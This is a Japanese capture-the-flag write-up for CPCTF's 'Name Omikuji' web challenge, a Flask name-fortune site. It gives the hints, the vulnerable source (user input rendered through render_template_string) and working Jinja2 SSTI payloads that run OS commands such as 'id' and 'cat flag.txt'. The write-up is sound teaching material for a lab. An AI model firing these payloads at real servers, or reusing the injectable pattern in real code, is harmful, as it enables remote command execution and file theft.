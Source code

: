 # Name Omikuji:Web:50.00pts
あなたの名前を占います！ (ちょっぴり厳しめ！)  
[https://name-omikuji.web.cpctf.space](https://name-omikuji.web.cpctf.space)  
[source code](name-omikuji.zip)  

**Hint1**  
SSTI (Server Side Template Injection) が使えそうです。  
**Hint2**  
`{{ 3 * 3 }}` という名前にすると 「こんにちは、9さん。」 になります。  
`{{ request }}` といった名前にすると変数の中身を覗くことができます。  
**Hint3 (解法)**  
「SSTI flask Payload」 などで調べると有用なペイロード (=攻撃用のコード片) が得られるはずです。  
今回の場合で言えば `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}` によってOSコマンドインジェクションを達成することができます。 (`id`の部分がコマンド)

# Solution
URLとソースコードが与えられる。  
アクセスすると、名前占いを行ってくれるサイトのようだ。  
![site1.png](site/site1.png)  
試しに名前を入れてみると凶と言われる泣。  
![site2.png](site/site2.png)  
いくつか別名を試すが、凶か大凶しか出ないので相当に厳しい占いのようだ。  
ソースを見ると主要な個所は以下となっていた。  
```python
from flask import Flask, request, render_template_string
import hashlib

~~~
app = Flask(__name__)


def get_fortune(name):
    hash_value = hashlib.sha256(name.encode()).hexdigest()
    zero_count = hash_value.count("0")

    if zero_count < 4:
        return "大凶"
    elif zero_count < 8:
        return "凶"
    elif zero_count < 16:
        return "小吉"
    elif zero_count < 32:
        return "中吉"
    elif zero_count < 64:
        return "吉"
    else:
        return "大吉"


@app.route("/")
def index():
    name = request.args.get("name")
    if name is None:
        return f"""
        {css}
        <h1>🔮 名前占い 🔮</h1>
        <form action="/" method="get">
            <label for="name">あなたの名前を入力してください:</label>
            <input type="text" id="name" name="name" required>
            <input type="submit" value="占う">
        </form>
        """

    fortune = get_fortune(name)

    result = f"""
    {css}
    <h1>🔮 名前占い 🔮</h1>
    <div class="result">
        <p>こんにちは、{name}さん。</p>
        <p>あなたの運勢は…… <span class="fortune">{fortune}</span> です！</p>
    """

    if fortune == "大吉":
        with open("flag.txt", "r") as f:
            content = f.read()
            result += f'<div class="flag">フラグは{content}です。</div>'

    result += "</div>"
    return render_template_string(result)


if __name__ == "__main__":
    app.run()
```
どうやら結果が`大吉`になるとフラグが表示されるようだ。  
名前占いのロジックは、SHA-256の結果がすべて`0`である場合のみ`大吉`になるというあり得ない厳しさだ。  
不可能なのでソースをよく見ると、`render_template_string`で明らかなSSTIがある。  
`flag.txt`にフラグが書かれているようなので、既知のペイロードである`{{lipsum.__globals__['os'].popen('cat flag.txt').read()}}`で読み取ってみる。  
![flag.png](site/flag.png)  
flagが得られた。  

## CPCTF{sst1_is_d3ngerou2}